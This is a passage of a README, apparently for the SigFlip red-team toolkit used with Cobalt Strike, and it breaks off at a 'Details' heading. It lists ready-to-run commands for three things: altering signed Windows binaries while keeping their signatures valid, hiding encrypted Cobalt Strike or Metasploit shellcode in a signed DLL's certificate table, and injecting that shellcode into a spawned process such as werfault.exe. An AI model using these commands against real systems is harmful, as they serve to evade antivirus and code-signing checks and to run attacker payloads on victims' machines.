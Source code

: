Make sure all object files are located in the same directory as sigflip.cna, then load sigflip.cna script to cobalt strike.

If you're using Mingw-64 >= 9.0.0, you may want to check https://github.com/med0x2e/SigFlip/issues/2#issuecomment-895521580 to get BOFs built with no errors.
	
#### Cobalt Strike:
1. **Execute-Assembly**
	* `execute-assembly SigFlip.exe -h`
	* `execute-assembly SigLoader -h`
2. **BOF**
	* For usage with cobalt strike, once you load the SigFlip.cna script, two new commands will be registered; SigFlip and SigInject, then use as below;
		* SigFlip: Change a PE file (DLL, EXE, SYS, OCX ..etc) hash without breaking the signature or the validity of the certificate:
			* `SigFlip "<PE\_FILE\_PATH>" "<OUTPUT\_PE\_FILE\_PATH (with extension)>"`
		
		* SigInject: Encrypts and Injects shellcode into a PE file's \[WIN\_CERTIFICATE\] certificate table, encryption key is printed out for usage with a basic C/C# loader plus keeps the signature and certificate validity intact:
			* `SigInject "<PE\_FILE\_PATH> <OUTPUT\_PE\_FILE\_PATH (with extension)>" "<SHELLCODE\_FILE>"`

        * SigLoader: Loads encrypted shellcode from PE files created by SigInject, then use Early Bird queueuserapc to spawn/inject sc into a sacrificial process, shellcode injection logic can be customized or replaced with any other code injection technique of choice:
            * `SigLoader <PE_FILE_PATH_WITH_SH> <DECRYPTION_KEY> <SPAWNTO_PROCESS_PATH> <PARENT_PROCESS_ID>`
3. **Examples**

    * BOF:
        * Inject random data to msbuild.exe (aka bit flip msbuild.exe): 
            * `SigFlip "C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe" "C:\lolbins\modified-msbuild.exe"`
        * Inject shellcode to kernel32.dll (Arguments order is different & make sure to take note of the decryption key):
            * `SigInject "C:\Windows\System32\kernel32.dll" "C:\random\modified-kernel32.dll" "C:\shellcode\cobaltstrike_or_msf_shellcode.bin"`
            * `Sigloader "C:\random\modified-kernel32.dll" "DECRYPTION_KEY" "C:\Windows\System32\werfault.exe" 6300`

    * Execute-Assembly:

        * Inject random data to msbuild.exe: 
            * `execute-assembly SigFlip.exe -b C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe -o C:\Temp\MSBuild.exe`
        * Inject shellcode to kernel32.dll (Arguments order is different & make sure to take note of the decryption key):
            * `execute-assembly SigFlip.exe -i C:\Windows\System32\kernel32.dll -s C:\Temp\x86shellcode.bin -o C:\Temp\kernel32.dll -e TestSecretKey`
            * `execute-assembly SigLoader.exe -f C:\Temp\modified-kernel32.dll -e TestSecretKey -pid 2354`

---

## Details:
